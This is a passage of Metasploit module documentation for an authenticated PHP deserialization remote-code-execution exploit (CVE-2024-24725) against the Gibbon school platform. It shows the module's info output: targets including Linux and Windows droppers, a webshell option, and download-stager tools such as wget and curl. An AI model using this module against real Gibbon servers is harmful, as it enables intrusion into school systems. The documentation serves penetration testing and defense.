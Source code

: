 ## Scenarios
```msf
msf6 exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > info

       Name: Gibbon School Platform Authenticated PHP Deserialization Vulnerability
     Module: exploit/multi/http/gibbon_auth_rce_cve_2024_24725
   Platform: PHP, Unix, Linux, Windows
       Arch: php, cmd, x64, x86
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-03-18

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  SecondX.io Research Team(Ali Maharramli,Fikrat Guliev,Islam Rzayev)

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper
      3   Windows Command
      4   Windows Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting        Required  Description
  ----       ---------------        --------  -----------
  PASSWORD                          yes       Password
  Proxies                           no        A proxy chain of format type:host:port[,type:host:port][
                                              ...]
  RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs
                                              /using-metasploit/basics/using-metasploit.html
  RPORT      443                    yes       The target port (TCP)
  SSL        true                   no        Negotiate SSL/TLS for outgoing connections
  SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                      yes       The Gibbon online school platform endpoint URL
  URIPATH                           no        The URI to use for this exploit (default is random)
  USERNAME                          yes       Gibbon username to login, typically an e-mail address
  VHOST                             no        HTTP server virtual host
  WEBSHELL                          no        Set webshell name without extension. Name will be randomly generated if left unset.


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
```